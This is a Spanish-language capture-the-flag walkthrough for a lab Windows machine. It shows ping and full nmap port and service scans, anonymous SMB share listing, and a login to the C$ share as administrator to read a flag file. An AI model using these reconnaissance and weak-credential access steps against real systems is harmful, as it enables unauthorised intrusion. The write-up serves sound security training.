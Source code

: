 🗹 Verificar si el host está activo:

```shell
ping -c 1 10.129.1.13

PING 10.129.1.13 (10.129.1.13) 56(84) bytes of data.
64 bytes from 10.129.1.13: icmp_seq=1 ttl=127 time=176 ms

--- 10.129.1.13 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 175.846/175.846/175.846/0.000 ms
```

> Sistema operativo: **Windows**

🗹 Identificar puertos abiertos y qué servicios están corriendo:

```shell
sudo nmap -p- -sS --open --min-rate 5000 -n -Pn -vv 10.129.1.13 -oG openPorts

PORT      STATE SERVICE       REASON
135/tcp   open  msrpc         syn-ack ttl 127
139/tcp   open  netbios-ssn   syn-ack ttl 127
445/tcp   open  microsoft-ds  syn-ack ttl 127
3389/tcp  open  ms-wbt-server syn-ack ttl 127
5985/tcp  open  wsman         syn-ack ttl 127
49664/tcp open  unknown       syn-ack ttl 127
49665/tcp open  unknown       syn-ack ttl 127
49666/tcp open  unknown       syn-ack ttl 127
49667/tcp open  unknown       syn-ack ttl 127
49668/tcp open  unknown       syn-ack ttl 127
49669/tcp open  unknown       syn-ack ttl 127
49670/tcp open  unknown       syn-ack ttl 127
49671/tcp open  unknown       syn-ack ttl 127
```

🗹 Ejecutar scripts para recopilar información adicional:

```shell
sudo nmap -p 135,139,445,3389,5985,49664,49665,49666,49667,49668,49669,49670,49671 -sCV 10.129.1.13 -oN targeted

PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2024-03-07T14:14:18+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: EXPLOSION
|   NetBIOS_Domain_Name: EXPLOSION
|   NetBIOS_Computer_Name: EXPLOSION
|   DNS_Domain_Name: Explosion
|   DNS_Computer_Name: Explosion
|   Product_Version: 10.0.17763
|_  System_Time: 2024-03-07T14:13:45+00:00
| ssl-cert: Subject: commonName=Explosion
| Not valid before: 2024-03-06T14:00:08
|_Not valid after:  2024-09-05T14:00:08
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  unknown
49670/tcp open  tcpwrapped
49671/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-03-07T14:13:42
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
```

| Puerto | Servicio      | Versión                                 |
| ------ | ------------- | --------------------------------------- |
| 135    | msrpc         | Microsoft Windows RPC                   |
| 139    | netbios-ssn   | Microsoft Windows netbios-ssn           |
| 445    | microsoft-ds  | ?                                       |
| 3389   | ms-wbt-server | Microsoft Terminal Services             |
| 5985   | http          | Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP) |
| 49664  | unknown       | ?                                       |
| 49665  | unknown       | ?                                       |
| 49666  | msrpc         | Microsoft Windows RPC                   |
| 49667  | msrpc         | Microsoft Windows RPC                   |
| 49668  | msrpc         | Microsoft Windows RPC                   |
| 49669  | unknown       | ?                                       |
| 49670  | tcpwrapped    | ?                                       |
| 49671  | msrpc         | Microsoft Windows RPC                   |
🗹 Listar servicios disponibles en el servidor sin proporcionar contraseña:

```shell
smbclient -L 10.129.1.13

Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
```

🗹 Conectarse al servicio SMB y obtener la flag:

```shell
smbclient //10.129.1.13/C$ -U administrator

smb: \> more \Users\Administrator\Desktop\flag.txt
```
## Flag

La flag se encuentra en el directorio `\Users\Administrator\Desktop\`.